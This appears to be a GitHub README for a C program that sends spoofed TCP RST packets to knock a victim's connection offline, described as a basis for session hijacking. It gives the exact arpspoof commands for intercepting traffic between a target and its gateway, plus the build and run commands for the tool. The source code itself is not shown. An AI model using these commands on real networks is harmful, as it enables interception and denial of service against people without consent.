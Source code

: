 # TCP-IP-Hijack-via-RST-signal-
(Wrriten in C)TCP/IP hijack using PCAP and LIBNET library for capturing and injection TCP/IP packages - This code simply spoof victim ip address , and send TCP/IP packet to DST using RST flag , so Victim machine loose access to the internet , Fundamental of how to fully hijack a session.

**Disclaimer:**  
This code is provided for educational and research purposes only. Do **not** use it on networks or devices you do not own or have explicit permission to test.  
The author is not responsible for misuse.

## How to Build
-For this code to work on a switched network , first you need to arp spoof , so you can sniff all the data that are passing through the network

```sh
sudo arpspoof -i <your-interface> -t <target-machine-ip> <gateway-ip>
sudo arpspoof -i <your-interface> -t <gateway-ip> <target-machine-ip>
sudo gcc RST_Hijack.c -o rst_hijack -lpcap -lnet
sudo ./rst_hijack <Target-machine-ip>
```

## Files
- `RST_Hijack.c`: Main logic
- `Fatal.c`: Helper functions

## Requirements
- libpcap library
- libnet library
- arpspoof



